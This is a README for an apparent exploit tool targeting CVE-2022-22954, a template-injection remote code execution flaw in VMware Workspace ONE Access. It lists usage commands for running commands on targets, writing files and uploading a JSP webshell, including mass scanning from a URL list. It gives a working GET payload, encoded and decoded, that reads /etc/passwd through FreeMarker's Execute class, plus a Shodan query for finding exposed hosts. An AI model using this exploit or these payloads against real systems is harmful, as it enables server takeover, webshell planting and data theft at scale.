

# CVE-2022-22954
VMware Workspace ONE Access SSTI (RCE)
&nbsp;

## Usage
```bash
// Single target vulnerability detection
python CVE-2022-22954.py -u https://x.x.x.x

// Command execution
python CVE-2022-22954.py -u https://x.x.x.x -c "id"

// Write file
python CVE-2022-22954.py -u https://x.x.x.x -fn test.jsp  -fc "test"

// Upload a file, Windows needs to specify the path to set the file name
python CVE-2022-22954.py -u https://x.x.x.x -fn test.jsp  -fp "D:\Desktop\shell.jsp"

// Upload to the specified path
python CVE-2022-22954.py -u https://x.x.x.x -fn "/opt/vmware/horizon/workspace/webapps/catalog-portal/test.jsp"  -fp "D:\Desktop\shell.jsp"

// Batch detection, consistent usage
python CVE-2022-22954.py -f url.txt
python CVE-2022-22954.py -f url.txt -c "id" -t 200
python CVE-2022-22954.py -f url.txt -fn test.jsp  -fc "test" -t 200
python CVE-2022-22954.py -f url.txt -fn test.jsp  -fp "D:\Desktop\shell.jsp" -t 200
python CVE-2022-22954.py -f url.txt -fn "/opt/vmware/horizon/workspace/webapps/catalog-portal/test.jsp"  -fp "D:\Desktop\shell.jsp" -t 200
```
&nbsp;

## POC
Use following GET request to execute ```cat /etc/passwd``` command.
```
TARGET.COM/catalog-portal/ui/oauth/verify?error=&deviceUdid=%24%7b%22%66%72%65%65%6d%61%72%6b%65%72%2e%74%65%6d%70%6c%61%74%65%2e%75%74%69%6c%69%74%79%2e%45%78%65%63%75%74%65%22%3f%6e%65%77%28%29%28%22%63%61%74%20%2f%65%74%63%2f%70%61%73%73%77%64%22%29%7d
 ```
 ```
 Decoded Payload:
 ${"freemarker.template.utility.Execute"?new()("cat /etc/passwd")}
 ```
 
 [](https://www.youtube.com/watch?v=YVIW-uKgvPI)
&nbsp;

## Shodan Query:
```
http.favicon.hash:-1250474341 
```
&nbsp;

## Nuclei Template:
[CVE-2022-22954.yaml](https://github.com/NafisiAslH/KnowledgeSharing/blob/main/CyberSecurity/Web/CVEs/CVE-2022-22954/CVE-2022-22954.yaml)
</br>&nbsp;

## Credit
[sherlocksecurity](https://github.com/sherlocksecurity/VMware-CVE-2022-22954)'s github page.</br>
[MLX15](https://github.com/MLX15/CVE-2022-22954)'s github page.</br>
[Punit Darji](https://www.youtube.com/watch?v=YVIW-uKgvPI)'s youtube video.</br>
